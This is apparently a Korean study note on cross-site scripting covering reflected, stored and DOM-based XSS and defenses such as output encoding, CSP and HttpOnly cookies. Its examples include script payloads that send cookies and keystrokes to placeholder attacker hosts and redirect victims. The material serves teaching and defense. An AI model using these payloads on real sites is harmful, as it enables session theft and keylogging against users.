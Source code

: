 # **XSS (Cross-Site Scripting)**

: 웹사이트에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되도록 만드는 해킹 방법

공격자는 이를 이용해 쿠키 탈취, 세션 하이재킹, 피싱, 키로깅 등을 수행할 수 있다.

<br>
<br>

## **XSS 공격의 종류**

XSS 공격은 실행 방식에 따라 크게 **반사형(Reflected)**, **저장형(Stored)**, **DOM 기반(DOM-based)** 세 가지로 나뉜다.

<br>

### 1. 반사형 XSS (Reflected XSS)

: 공격자가 조작한 URL을 피해자가 클릭하면, 서버가 악성 스크립트를 포함한 응답을 반환하여 실행되는 방식

스크립트가 포함된 공격용 악성 URL을 만든 뒤, 사용자가 해당 URL을 클릭했을 때 정보를 획득하는 공격이다.
URL이 길면 클라이언트가 의구심을 가질 수 있기 때문에 URL 단축을 이용해 짧은 URL로 만들어 공격하기도 한다.

사용자가 특정 파라미터에 입력한 값을 서버가 응답으로 반사해서 보내줄 때 발생하며
서버에 스크립트를 저장하는 것이 아니므로 서버의 필터링을 피할 수 있다.

- URL을 만들어 클릭해 실행되게 하는 방식으로 **특정인을 대상**으로 한다.
- **URL 파라미터 데이터가 그대로 서버 응답에 삽입**되어 오는 곳에서 발생한다. 즉, 요청과 응답 페이지가 동일해야 한다.
- POST 방식은 공격에 활용할 여지가 없기 때문에 데이터 전달은 **GET 방식**이어야 한다.

<br>

공격자는 다음과 같은 URL을 생성한다.

````php-template
https://example.com/search?q=<script>alert('Hacked!');</script>```
````

피해자가 이 URL을 클릭하면, 서버는 `q`값 그대로 응답에 포함해 브라우저가 실행된다.

브라우저는 `<script>alert('Hacked!');</script>` 코드(예시)를 실행한다.

심각한 경우, 공격자는 세션 쿠키를 탈취할 수 있다.

<br>

### 2. 저장형 XSS (Stored XSS)

: 공격자가 직접 악성 스크립트를 데이터베이스에 저장하고, 해당 데이터를 웹 페이지에서 로드할 때 실행되는 방식

취약한 웹 서버에 악성 스크립트를 심어놓고, 사용자가 접근하면 해당 스크립드가 실행되는 공격이다.

보통 서버에서 필터링을 하기 때문에 공격을 우회하기 어렵지만, 한 번 성공하면 관리자 입장에서는 눈치채기 힘들고 **광범위한 피해**를 줄 수 있다는 것이 특징이다.

- 데이터가 **저장**되고, **출력**되는 곳에서 발생한다. 저장되는 페이지와 출력되는 페이지는 달라도 상관 없다.
- **접근하는 모든 사람에게 공격이 가능**하기 때문에 광역 수준의 위험도를 가진다.

<br>

공격자가 댓글이나 게시글 입력란에 악성 스크립트를 입력한다.

```php-template
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

서버는 해당 내용을 데이터베이스에 저장한 후, 페이지 로딩시 그대로 출력한다.

이후 페이지를 방문한 사용자들의 브라우저에서 스크립트가 실행되면서 쿠키가 공격자 서버로 전송된다.

공격자는 쿠키를 탈취하여 세션을 가로채거나 피해자의 계정에 접근할 수 있다.

<br>

### 3. DOM 기반 XSS (DOM-based XSS)

: 서버 응답이 아니라, 클라이언트 측 자바스크립트에서 DOM 조작을 통해 실행되는 방식식

Reflected XSS와 Stored XSS 공격이 서버의 취약점을 이용해서 악성 스크립트가 포함된 응답 페이지를 전달하는 것인 반면,
DOM XSS는 서버와 관련없이 클라이언트 측에서 파라미터를 처리할 때 발생한다.

DOM XSS 공격은 사용자가 공격자에 의해 조작된 URL을 클릭하는 순간 악성 스크립트가 실행되면서 사용자 브라우저를 공격한다.

<br>

웹사이트가 URL 파라미터에서 데이터를 읽어 innerHTML에 삽입하는 경우

```javascript
document.getElementById("output").innerHTML = location.search;
```

<br>

공격자가 다음과 같은 URL을 생성한다.

```php-template
https://example.com/page?name=<script>alert('XSS!');</script>
```

페이지를 방문하면 `innerHTML`을 통해 `<script>`태그가 삽입되고 실행된다.

<br>
<br>

## **XSS 방어 방법**

### 1. 입력 값 검증 (Input Validation)

HTML, JavaScript, SQL 등에서 사용되는 특수문자를 필터링 한다.

`<`, `>`, `"`, `'`, `/`, `&` 등을 제거하거나 변환(escape)

<br>

### 2. 출력 시 인코딩 (Output Encoding)

서버에서 클라이언트로 데이터를 출력할 때 HTML Entity 인코딩을 적용한다.

```php
echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8');
```

`<script>` → `&lt;script&gt;`로 변환되어 실행되지 않는다.

<br>

### 3. CSP(Content Security Policy) 적용

스크립트 실행을 제한하는 보안 정책을 설정한다.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'" />
```

외부에서 제공되는 스크립트를 차단한다.

<br>

### 4. JavaScript에서 `innerHTML` 대신 `textContent` 사용

`innerHTML`을 사용하면 악성 코드가 실행될 위험이 있다.

```javascript
document.getElementById("output").textContent = location.search;
```

<br>

### 5. 쿠키에 `HttpOnly` 옵션 적용

`HttpOnly`를 설정하면 JavaScript에서 `document.cookie`로 접근할 수 없으므로 쿠키 탈취를 방지할 수 있다.

```php
setcookie("session", "abcdef", [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict'
]);
```

<br>
<br>

## **XSS 공격 시나리오**

### 1. 쿠키 탈취

```php-template
<script>
new Image().src = "http://공격자사이트.com/~~?cookie=".concat(document.cookie);
</script>
```

<br>

### 2. 악의적인 페이지로 리다이렉트

```php-template
<script>
location.href = "https://악의적인사이트.com/~~"
</script>
```

<br>

### 3.키로거를 이용한 정보 탈취

```javascript
el.addEventListener("keyup", () => {
  new Image().src = "http://공격자사이트.com/~~?cookie=".concat(event.key);
});
```
